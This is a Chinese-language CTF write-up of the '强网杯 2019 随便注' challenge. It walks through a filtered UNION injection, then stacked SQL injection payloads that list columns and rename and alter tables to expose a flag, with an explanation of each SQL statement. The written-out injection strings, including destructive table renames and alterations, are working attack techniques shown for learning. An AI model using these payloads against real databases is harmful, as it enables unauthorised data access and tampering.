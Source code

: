 ### [强网杯 2019]随便注

注入发现有过滤，一开始使用order by确定了只有2列，但是使用union的时候出问题了

```
?inject=1' union select 1,2#
```

![image-20250131105729216](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250131105729216.png)

发现被过滤了

尝试使用堆叠注入

![image-20250131105816144](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250131114222113.png)

```
?inject=1%27;show columns from `1919810931114514`%23
```

![image-20250131114222113](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250131112930603.png)

![image-20250131114625294](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250131105816144.png)

发现了flag的，但是不清楚怎么获取，查看wp思路

在另一个word表中有两个字段，而数字中只有一个字段，一开始使用order by发现有两个字段，所以这里应该是从word表中取出东西，而且word中的data和数字中的flag都是varchar字段，所以wp的思路是使用`rename`​修改表名，把数字表改为`words`​

wp的payload是

```
1';
rename table words to None; 
rename table `1919810931114514` to words;
alter table words add id int unsigned not NULL auto_increment primary key;
alter table words change flag data varchar(20);#
```

> 两个rename修改表名
>
> ```sql
> alter table words add id int unsigned not NULL auto_increment primary key;
> ```
>
> 因为原words表中有id字段，这里使用alter在新words中添加一个名为id的列  
> int unsigned：数据类型  
> not NULL：该列不为空  
> auto_increment：该列的值自动递增  
> primary key：设置为主键
>
> ```sql
> alter table words change flag data varchar(20);
> ```
>
> 将flag列重命名为data列，并修改数据类型

